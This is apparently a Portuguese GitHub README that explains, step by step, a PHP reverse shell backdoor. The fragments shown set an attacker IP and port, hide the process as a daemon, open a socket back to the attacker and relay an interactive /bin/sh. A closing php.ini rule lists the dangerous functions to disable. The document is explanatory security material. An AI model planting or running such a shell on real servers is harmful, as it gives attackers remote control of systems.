 
# 🐚 PHP Reverse Shell

Este repositório contém um script de **shell reverso em PHP** comentado, ideal para fins educacionais e testes de segurança autorizados.

---

## ⚠️ AVISO IMPORTANTE

Este código é **potencialmente perigoso** e pode ser utilizado de forma maliciosa. No entanto, ele também tem **aplicações legítimas** em testes de intrusão (pentest), auditorias de segurança e simulações ofensivas.

> ❗ **Nunca utilize este tipo de código em sistemas sem permissão explícita.**  
> O uso indevido pode violar leis locais e internacionais.  
> O autor **não se responsabiliza** por qualquer dano ou uso indevido.

---

## 🔍 O que o código faz — Explicado passo a passo

Este código é um shell reverso, ou seja, um tipo de **backdoor** que faz com que o servidor PHP (vítima) se conecte a outro computador (atacante), oferecendo um terminal remoto com o mesmo privilégio do processo PHP (normalmente `www-data`, `apache`, etc.).

### 1. Configuração Inicial

```php
set_time_limit(0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // IP do atacante - deve ser alterado
$port = 1234;       // Porta do atacante - deve ser alterada
```

- `set_time_limit(0)` → desativa o limite de tempo do script (ele roda indefinidamente).
- `$ip` e `$port` → definem para onde o script PHP irá se conectar.

---

### 2. Comando Inicial

```php
$shell = 'uname -a; w; id; /bin/sh -i';
```

- Executa comandos úteis para identificar o sistema e depois inicia um shell interativo:
  - `uname -a` → informações do sistema operacional.
  - `w` → usuários logados.
  - `id` → UID e grupos do processo.
  - `/bin/sh -i` → shell interativo.

---

### 3. Daemonização (opcional)

```php
if (function_exists('pcntl_fork')) {
    $pid = pcntl_fork();
    ...
}
```

- Se possível, transforma o script em **daemon** (processo de segundo plano):
  - Oculta o processo.
  - Evita "zombies".
- Caso não seja possível, ele continua normalmente e exibe um aviso.

---

### 4. Conexão com o atacante

```php
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
```

- Abre uma conexão TCP para o IP/porta do atacante.
- Esse será o canal reverso para o shell.
- Se falhar, o script termina.

---

### 5. Execução do processo do shell

```php
$process = proc_open($shell, $descriptorspec, $pipes);
```

- Inicia um processo `/bin/sh -i` com entrada e saída redirecionadas para pipes.
- Permite redirecionar comandos e saídas via socket TCP.

---

### 6. Torna os streams não bloqueantes

```php
stream_set_blocking(..., 0);
```

- Evita que o script fique travado aguardando leitura ou escrita em um stream.

---

### 7. Loop de comunicação

```php
while (1) {
    ...
}
```

- Loop infinito que:
  - Lê dados do socket (comandos do atacante) → envia ao shell.
  - Lê saída do shell → envia de volta ao socket.
- Atua como um **proxy de terminal interativo** entre vítima e atacante.

---

### 8. Encerramento limpo

- Fecha todos os pipes, socket e termina o processo:
```php
fclose(...);
proc_close(...);
```

---

### 9. Função `printit()`

```php
function printit($string) {
    if (!$daemon) {
        print "$string\n";
    }
}
```

- Exibe mensagens de log no terminal **apenas se não estiver daemonizado**.
- Útil para depuração ou execução manual.

---

## ✅ Exemplos de uso legítimo

- Testes de segurança (pentest) com permissão da empresa/cliente.
- Simulações de ataque para avaliar respostas de segurança.
- Análises forenses e educacionais.

---

## 💡 Conclusão Técnica

Este script:

- Cria um canal de comunicação reverso (inbound no atacante, outbound na vítima).
- Permite execução remota de comandos em tempo real.
- Não depende que a vítima tenha portas abertas — apenas que o PHP tenha funções habilitadas.
- Muito útil em exploração de vulnerabilidades como RCE, LFI+log poisoning ou upload malicioso.

---

## 🛡️ Proteção recomendada

No `php.ini`, desative funções perigosas para evitar exploração:

```ini
disable_functions = proc_open, shell_exec, system, passthru, exec, popen, fsockopen
```

---

## 🧑‍💻 Autor

- [h4ckthreat](https://www.instagram.com/h4ckthreat/)

---

## 📄 Licença

Distribuído sob a [GNU GPL v3](https://www.gnu.org/licenses/old-licenses/gpl-3.0.html).
